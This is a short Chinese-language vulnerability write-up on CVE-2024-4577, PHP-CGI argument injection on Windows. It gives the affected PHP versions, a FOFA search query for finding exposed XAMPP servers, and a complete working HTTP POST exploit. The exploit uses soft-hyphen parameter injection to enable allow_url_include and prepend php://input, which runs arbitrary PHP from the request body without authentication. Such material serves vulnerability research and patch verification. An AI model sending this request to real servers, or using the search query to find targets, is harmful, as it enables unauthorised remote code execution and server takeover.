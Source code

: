 # CVE-2024-4577

## 1.漏洞描述

PHP 在设计时忽略 Windows 中对字符转换的Best-Fit 特性，当PHP运行在Window平台且使用了如下语系（简体中文936/繁体中文950/日文932等）时，攻击者可构造恶意请求绕过CVE-2012-1823 保护，从而可在无需登陆的情况下执行任意PHP代码。

2024年6月6日，PHP官方发布新版本正式修复该漏洞，漏洞利用较为简单且危害较大，建议尽快采取措施升级或者进行缓解。

## 2.影响版本

​    PHP 8.3 < 8.3.8

​    PHP 8.2 < 8.2.20

​    PHP 8.1 < 8.1.29

## 3.fofa语法

```plain
header="Xampps_info" || body="/xampps.jpg" || (header="location http" && header="xampp") || body="content=\"Kai Oswald Seidler" || title="XAMPP for" || title="XAMPP Version" || body="font-size: 1.2em; color: red;\">New XAMPP"
```

## 4.漏洞复现

```plain
POST /php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36 Edg/109.0.1518.69
Connection: close
Content-Length: 37
Accept: */*
Accept-Language: en
Accept-Encoding: gzip

<?php echo md5("hello"); ?>
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719227743875-cfdbbee2-4c56-43a2-b6f5-311c40d0573d.png)
